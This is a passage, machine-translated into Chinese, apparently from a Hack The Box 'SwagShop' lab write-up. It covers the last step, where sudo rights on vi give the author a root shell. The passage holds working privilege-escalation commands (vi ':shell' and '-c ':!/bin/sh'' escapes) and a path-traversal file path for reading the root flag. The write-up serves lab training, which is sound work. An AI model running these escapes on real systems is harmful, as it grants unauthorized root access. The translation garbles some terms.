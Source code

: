     "/var/www/html/../../../root/root.txt" 10L, 270C
    

### 壳

我当然想要一个贝壳。我将使用 打开一个不存在的文件。`www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/a`

[离开Bins的vi页面](https://gtfobins.github.io/gtfobins/vi/)告诉我如何从这里获取外壳：

    :set shell=/bin/sh
    :shell
    

我将使用 bash，但其他方面相同：

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fswagstore-root.gif)

`wc -c root.txt`返回 270，但这是因为有一条带有标志的额外消息：

    root@swagshop:/home/haris# cat /root/root.txt 
    c2b087d6...
    
       ___ ___
     /| |/|\| |\
    /_| ´ |.` |_\           We are open! (Almost)
      |   |.  |
      |   |.  |         Join the beta HTB Swag Store!
      |___|.__|       https://hackthebox.store/password
    
                       PS: Use root flag as password!
    

### 更多 直接外壳

我还可以在 [go awayBins](https://gtfobins.github.io/gtfobins/vi/) 上使用另一个示例，并从命令行获取一个外壳：

    www-data@swagshop:/var/www/html$ sudo vi /var/www/html/a -c ':!/bin/sh'
    

格式在我的 shell 上有点疯狂，很难在这里显示，但它确实返回了一个根 shell。

[查看原网页: 0xdf.gitlab.io](https://0xdf.gitlab.io/2019/09/28/htb-swagshop.html)